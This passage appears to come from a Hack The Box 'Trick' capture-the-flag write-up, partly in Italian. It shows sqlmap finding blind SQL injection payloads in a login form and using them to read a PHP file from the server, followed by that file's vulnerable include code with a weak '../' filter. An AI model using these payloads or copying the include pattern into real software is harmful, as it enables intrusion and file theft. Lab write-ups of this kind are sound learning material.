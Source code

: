 ```bash
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 8044 FROM (SELECT(SLEEP(5)))iJwa) AND 'gugB'='gugB&password=admin

    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: username=admin' AND 6546=(SELECT (CASE WHEN (6546=6546) THEN 6546 ELSE (SELECT 3418 UNION SELECT 2270) END))-- -&password=admin
---
[01:47:53] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.14.2
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[01:47:53] [INFO] fingerprinting the back-end DBMS operating system
[01:47:53] [INFO] the back-end DBMS operating system is Linux
[01:47:53] [INFO] fetching file: '/var/www/market/index.php'
[01:47:53] [INFO] retrieving the length of query output
[01:47:53] [INFO] retrieved: 388
[01:48:17] [INFO] retrieved: 3C3F7068700D0A2466696C65203D20245F4745545B2770616765275D3B0D0A0D0A696628216973736574282466696C6529207C7C20282466696C653D3D22696E6465782E706870222929207B0D0A202020696E636C75646528222F7661722F7777772F6D61726B65742F686F6D652E68746D6C22293B0D0A7D0D0A656C73657B0D0A09696E636C75646528222F7661722F7777772F6D61726B65742F222E7374725F7265706C61636528222E2E2F222C22222C2466696C6529293B0D0A7D0D0A3F3E
do you want confirmation that the remote file '/var/www/market/index.php' has been successfully downloaded from the back-end DBMS file system? [Y/n] Y
[01:48:17] [INFO] retrieving the length of query output
[01:48:17] [INFO] retrieved: 3
[01:48:18] [INFO] retrieved: 194
[01:48:18] [INFO] the local file '/root/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_var_www_market_index.php' and the remote file '/var/www/market/index.php' have the same size (194 B)
files saved to [1]:
[*] /root/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_var_www_market_index.php (same file)

[01:48:18] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/preprod-payroll.trick.htb'

[*] ending @ 01:48:18 /2023-07-25/
```


Leggiamo il file 

```
┌──(root㉿kali)-[/home/kali/htb/trick]
└─# cat _var_www_market_index.php
<?php
$file = $_GET['page'];

if(!isset($file) || ($file=="index.php")) {
   include("/var/www/market/home.html");
}
else{
        include("/var/www/market/".str_replace("../","",$file));
}
?>                                                                          

```
